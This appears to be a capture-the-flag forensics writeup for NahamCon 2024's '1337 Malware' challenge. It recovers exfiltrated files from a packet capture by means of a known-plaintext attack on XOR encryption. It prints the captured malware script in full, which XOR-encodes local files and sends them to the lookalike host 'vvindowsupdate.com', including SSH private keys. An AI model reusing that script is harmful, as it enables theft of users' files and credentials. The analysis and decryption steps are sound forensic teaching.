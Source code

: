 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2024 | 1337 Malware Writeup
desc: Check out our writeup for 1337 Malware for Nahamcon 2024 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Nahamcon 2024
parent: nahamcon_2024
category: forensics
challenge: 1337 Malware
tags: "forensics, twh, pcap, malware, python, tshark, xor, known plaintext attack"
date: 2024-05-28T00:00:00+00:00
last_modified_at: 2024-05-28T00:00:00+00:00
---
```




> Solved by : thewhiteh4t


- From the PCAP we can extract `rans.py` by exporting HTTP objects

```python
import socket
import base64
import os
from random import randbytes
from pwn import xor

key = randbytes(32)


def encrypt(filename):
    f = open(filename, 'rb')
    data = f.read()
    f.close()

    encrypted = xor(data, key)
    return encrypted


def send_encrypted(filename):
    print(f'sending {filename}')
    data = encrypt(filename)

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall((f'Sending: {filename}').encode())
    s.close()

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('vvindowsupdate.com', 1337))
    s.sendall(data)
    s.close()


def get_all_files():
    file_paths = []
    for root, dirs, files in os.walk(os.path.dirname(os.path.realpath(__file__))):
        for file in files:
            file_paths.append(os.path.join(root, file))
    file_paths.remove(__file__)
    return file_paths


files = get_all_files()
for f in files:
    send_encrypted(f)
    # os.remove(f)
```


- script generates a random key using randbytes function
- list of all files is generated and each file is passed to `send_encrypted` function
- it encrypts or encodes each file using XOR against the random key


![](https://i.imgur.com/nVmsdt6.png)



- then it first sends a message with the filename in plaintext and second it sends the encoded string


![](https://i.imgur.com/PGkqdW5.png)



- we can extract all this data to a file using `tshark` :

```
tshark -r 1337-malware.pcapng -T fields -e data.data -Y 'data.data' > enc_strings.txt
```

- since the plain text message has a fixed pattern and it begins by `Sending` the hex string remains constant so we can filter out the plain text message using start of the string : `53656e`
- each hex string of plain text message starts with it, so the full pattern is like :

```
sending file
<XORed data in hex>
.
.
.
sending file
<XORed data in hex>
```

- now we don’t have the key and the key is not sent by the script either
- after some google fu I found : `XOR Known Plaintext Attack`
- https://blog.didierstevens.com/2016/01/01/xor-known-plaintext-attack/
- if we decode only the plaintext hex strings we can see the filenames :

```
Sending: /home/davey/Documents/resources.zip
Sending: /home/davey/Documents/ecorp.png
Sending: /home/davey/Documents/Welcome Aboard.pdf
Sending: /home/davey/Documents/.ssh/id_rsa
Sending: /home/davey/Documents/.ssh/id_rsa.pub
```

- for parsing the data extracted from PCAP we can use the following python code :

```python
with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```

- now if we think about known plain text in these files, for ZIP, PNG and PDF we don’t have much data except their headers
- but for `id_rsa` the first line is standard and is present in all valid keys :

```
-----BEGIN OPENSSH PRIVATE KEY-----
```

- using this with `xor-kpa.py` we can attempt to find the key


![](https://i.imgur.com/V6VrZrZ.png)



- we only need the first key
- now we can write a decode function to get the plain text file contents : 

```python
#!/usr/bin/env python3

from pwn import xor

key = b"\x82\xc2SP\x8b\xd5LG\xa7\xe5m\xec\xd8v\xb5\xd6\xa4\'\xc6E\t\x0br\xe1\xb9q3\"\xfe\xe1YY"


def decrypt_file(filename):
        print(f'Decoding : {filename}')
        with open(filename, 'rb') as encfile:
                data = encfile.read()
        decrypted = xor(data, key)
        orig_fname = filename.replace('enc_', '')
        print(f'Writing : {orig_fname}')
        with open(orig_fname, 'wb') as decfile:
                decfile.write(decrypted)


with open('enc_strings.txt', 'r') as infile:
        lines = infile.read()

chunks = lines.split('53656e')

for entry in chunks:
        parts = entry.split('\n')
        if len(parts) > 1:
                bin_data = b''
                for chunk in parts:
                        if parts.index(chunk) == 0:
                                sendline = bytes.fromhex('53656e' + chunk).decode()
                                filename = 'enc_' + sendline.split('/')[-1]
                        else:
                                bin_data += bytes.fromhex(chunk)
                print(f'Writing : {filename}')
                with open(filename, 'wb') as outfile:
                        outfile.write(bin_data)
                decrypt_file(filename)
```


- `resources.zip` is password protected
- `ecorp.png` is a reference to our beloved Mr Robot!
- `Welcome Aboard.pdf` contains the following content : 


![](https://i.imgur.com/uEQWs66.png)

- and we now have the password for the zip file!


![](https://i.imgur.com/BFgBtLB.png)



